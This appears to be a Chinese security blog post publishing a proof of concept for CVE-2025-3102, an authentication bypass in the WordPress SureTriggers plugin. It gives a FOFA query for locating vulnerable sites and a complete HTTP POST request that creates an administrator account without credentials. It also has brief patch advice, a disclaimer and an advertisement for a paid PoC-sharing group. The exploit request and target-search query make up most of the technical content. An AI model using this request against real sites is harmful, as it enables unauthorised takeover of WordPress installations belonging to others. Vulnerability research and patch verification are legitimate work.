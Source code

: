 #  WordPress suretriggers 权限绕过漏洞 (CVE-2025-3102) 附POC   
Superhero  Nday Poc   2025-06-02 13:13  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/Melo944GVOJECe5vg2C5YWgpyo1D5bCkYN4sZibCVo6EFo0N9b7Kib4I4N6j6Y10tynLOdgov9ibUmaNwW5yeoCbQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/Melo944GVOJECe5vg2C5YWgpyo1D5bCkhic5lbbPcpxTLtLccZ04WhwDotW7g2b3zBgZeS5uvFH4dxf0tj0Rutw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/Melo944GVOJECe5vg2C5YWgpyo1D5bCk524CiapZejYicic1Hf8LPt8qR893A3IP38J3NMmskDZjyqNkShewpibEfA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
内容仅用于学习交流自查使用，由于传播、利用本公众号所提供的  
POC  
信息及  
POC对应脚本  
而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号Nday Poc及作者不为此承担任何责任，一旦造成后果请自行承担！  
  
  
**01**  
  
**漏洞概述**  
  
  
适用于 WordPress 的 SureTriggers： All-in-One Automation Platform 插件容易受到身份验证绕过攻击，从而导致创建管理账户，因为在 1.0.78 之前的所有版本中，“autheticate_user”函数中的“secret_key”值缺少空值检查。这使得未经身份验证的攻击者可以在安装并激活插件但未配置 API 密钥时在目标网站上创建管理员账户。  
**02******  
  
**搜索引擎**  
  
  
FOFA:  
```
body="/wp-content/plugins/suretriggers"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKOaJMEcrkic3rzN4q7FvC8wIlEBrw1sGGAiaWl4zmvdDX2gpdPHQNHXORlH2lbjn3EnSCpEbG5Z0EA/640?wx_fmt=png&from=appmsg "")  
  
  
**03******  
  
**漏洞复现**  
```
POST /wp-json/sure-triggers/v1/automation/action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Content-Length: 225
Content-Type: application/json
st_authorization: 
Accept-Encoding: gzip
{"integration": "WordPress", "type_event": "create_user_if_not_exists", "selected_options": {"user_email": "2xiJtgIY2pQi582NHNfDF3PqhC6@F1EZB.com", "user_name": "ubeorc", "password": "Superhero"}, "fields": [], "context": {}}
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKOaJMEcrkic3rzN4q7FvC8wic7WcTwDAUkC5icZVSyeF0lUwacTrgKa0l8Rv4P6ialJOqXcJiaoGlayAQ/640?wx_fmt=png&from=appmsg "")  
  
登录后台  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKOaJMEcrkic3rzN4q7FvC8wBBhVuUibpuQJp5H7jGUs64Ly1ZMPOUneQPibm7jepAxZ7mnGgJCicBpgg/640?wx_fmt=png&from=appmsg "")  
  
  
**04**  
  
**自查工具**  
  
  
nuclei  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKOaJMEcrkic3rzN4q7FvC8wr6HaK0k6cgYN8icDemHticicAMnQmHeJDpF1Bn7PoaB5P2fL3Ozmex20A/640?wx_fmt=png&from=appmsg "")  
  
afrog  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKOaJMEcrkic3rzN4q7FvC8wtkep9uicl2RAwiambibcGTgDylODqrhPt8Y1HGuLcDbtbun2C7poO4m3g/640?wx_fmt=png&from=appmsg "")  
  
xray  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKOaJMEcrkic3rzN4q7FvC8w7wabz4ln3wmZWbKS5uTVoc5QJKLUm0gB0k25ZFYMsdH0NCztuFibynw/640?wx_fmt=png&from=appmsg "")  
  
  
**05******  
  
**修复建议**  
  
  
1、关闭互联网暴露面或接口设置访问权限  
  
2、  
更新到版本 1.0.79 或更新的修补版本  
  
  
**06******  
  
**内部圈子介绍**  
  
  
【Nday漏洞实战圈】🛠️   
  
专注公开1day/Nday漏洞复现  
 · 工具链适配支持  
  
 ✧━━━━━━━━━━━━━━━━✧   
  
🔍 资源内容  
  
 ▫️ 整合全网公开  
1day/Nday  
漏洞POC详情  
  
 ▫️ 适配Xray/Afrog/Nuclei检测脚本  
  
 ▫️ 支持内置与自定义POC目录混合扫描   
  
🔄 更新计划   
  
▫️ 每周新增7-10个实用POC（来源公开平台）   
  
▫️ 所有脚本经过基础测试，降低调试成本   
  
🎯 适用场景   
  
▫️ 企业漏洞自查 ▫️ 渗透测试 ▫️ 红蓝对抗   
▫️ 安全运维  
  
✧━━━━━━━━━━━━━━━━✧   
  
⚠️ 声明：仅限合法授权测试，严禁违规使用！  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwI0beBCCyKGykkAazuPyvibgC0ooBGy9elQQ72f1WIB73UDYuPhx8cnCobvnOBdTcxmdwBbt2eAYIQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
